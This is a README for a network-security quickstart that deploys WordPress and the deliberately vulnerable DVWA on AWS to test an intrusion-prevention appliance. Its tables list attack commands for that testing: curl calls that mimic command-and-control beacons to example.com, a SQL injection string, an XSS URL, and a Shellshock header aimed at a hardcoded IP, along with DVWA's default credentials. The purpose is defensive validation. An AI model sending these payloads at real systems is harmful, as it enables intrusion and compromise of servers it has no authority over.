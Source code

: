 # quickstart-network-security-edge-deployment

*Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment*

## Purpose and Objectives

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

<img src="docs/edge_deployment.png" name="Network Security Edge Deployment">

## Deployment Steps

*Note: You can deploy this Quick Start using the default S3 template link below if you don't wish to make changes to this code and deploy with your own customized changes:*

`https://quickstart-ns-edge-deployment.s3.us-west-1.amazonaws.com/edge-deployment/templates/edge-deployment.template`
### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:

#### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :----------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |
### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the Trend Micro Cloud One console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Enable CloudWatch logs for your Network Security Appliances

In order to see the block logs after doing various attacks, you will need to configure logs for each of your Network Security Appliance. For detailed step-by-step instructions on enabling CloudWatch logs please check [Enable CloudWatch logs](https://cloudone.trendmicro.com/docs/network-security/Manage_Network_Security_instances/#cloudwatch)

You will need to enable at least `ipsBlock` and `reputationBlock` to see logs from attacks listed below.

## Performing IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Trend Micro Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                          |
| :--------- | :-------------------------------------------------------------- |
| 25492      | `curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88` |
| 34738      | `curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'`|
| 38451      | `curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php` |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Trend Micro Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------- |
| China  | `curl https://baidu.com` |
| Russia | `curl https://mail.ru `  |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. In order to perform SQL Attacks, you wil need to first configure the application security level to "Low" in order for attacks to work properly. This can be done as follows:

1. Login to DVWA application from your browser. You can retrieve the DVWAPublicIP from the "Output" tab of your DVWA CloudFormation stack. The URL would be `http://<DVWAPublicIP>`
2. Login to Web Application using following default credentials
    Username: `admin`
    Password: `password`
3. Go to DVWA Security menu on the side navigation panel
4. Set Security Level to "Low" and hit Submit button

Below are some SQL attacks you can perform on your DVWA server

| Filter ID  | Attack                                                        |
| :--------- | :------------------------------------------------------------ |
| 3593      | 1. Go to SSL Injection menu on the side navigation panel<br />2. Enter `?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit` in "User ID" text box and hit submit |
| 12365      | On your browser, enter `http://<DVWAPublicIP>/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E` |

### Inbound Attacks

Inbound attacks could be performed on any publically accessible webserver. In this case, we can perform a simple Shell Shock attack on our DVWA server

| Filter ID  | Attack                                                             |
| :--------- | :----------------------------------------------------------------- |
| 16798      | `curl -H "User-Agent: () { :; }; /bin/eject" http://20.44.162.152` |
